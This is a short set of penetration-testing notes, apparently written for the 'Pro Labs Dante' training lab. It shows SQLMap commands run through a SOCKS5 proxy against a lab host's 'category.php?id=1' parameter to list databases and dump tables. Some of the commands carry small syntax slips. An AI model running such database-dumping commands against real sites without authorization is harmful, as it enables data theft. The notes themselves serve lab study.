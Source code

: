 If you think a sight is susceptible to SQLMap (php?id=1 for example in the URL), try running SQLMap. For example in Pro Labs Dante:
- sqlmap -u "http://<172.16.1.12/blog/category.php?id=1" --proxy=socks5://127.0.0.1:1080 --dbs --batch
	- This will show the databases listed
- From here, I ran:
	- sqlmap -u "http://<172.16.1.12/blog/category.php?id=1" --proxy=socks5://127.0.0.1:1080 --dump -T <flag was the database> 

- Another method of dumping the SQL tables from SQL Map:
- sqlmap -u "http://<172.16.1.12/blog/category.php?id=1>" --proxy=socks5:127.0.0.1:1080 -D <targetedDB> -T <table_within_DB> --dump